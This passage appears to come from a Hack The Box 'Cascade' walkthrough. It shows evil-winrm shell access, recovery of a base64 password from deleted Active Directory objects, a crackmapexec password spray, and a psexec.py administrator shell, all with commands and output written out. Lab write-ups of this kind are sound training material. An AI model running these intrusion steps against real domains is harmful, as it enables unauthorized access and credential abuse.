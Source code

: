 We could now use `evil-winrm` to get a shell on the box.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade]
└──╼ # evil-winrm -i 10.10.10.182 -u arksvc -p w3lc0meFr31nd

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami
cascade\arksvc
```
![[Pasted image 20210720132703.png]]

# Root Escalation
We do an `whoami /all` and find out that we are in the `AD Recycle Bin` group.

We could use the command mentioned in :https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#ad-recycle-bin
`Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *`

To get the deleted items of the `Active Directory`.
On like combing through the huge data one lines sticks out.
![[Pasted image 20210720133254.png]]
Which is `cascadeLegacyPwd` which is set to : `YmFDVDNyMWFOMDBkbGVz` which is the password of the `TempAdmin` account.

We base64 decode the credentials and find out that it is : `baCT3r1aN00dles` :)

We also have a weird fact as the `Administrator` user is not showing up on `rpcclient enumdomusers`.
![[Pasted image 20210720133750.png]]

We could try out our credential on the `Adminsitrator`.

```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade]
└──╼ # crackmapexec smb 10.10.10.182 -u users.lst -p baCT3r1aN00dles
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\Administrator:baCT3r1aN00dles (Pwn3d!)
```
We see that `crackmapexec` screams us with `Pwn3d!`.

Now, Its just a matter of `psexec.py` to get a shell on the box.
![[Pasted image 20210720134156.png]]
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade]
└──╼ # psexec.py Administrator@10.10.10.182
Impacket v0.9.23.dev1+20210419.165326.f9453d21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.182.....
[*] Found writable share ADMIN$
[*] Uploading file qPYHyGnB.exe
[*] Opening SVCManager on 10.10.10.182.....
[*] Creating service llWw on 10.10.10.182.....
[*] Starting service llWw.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
```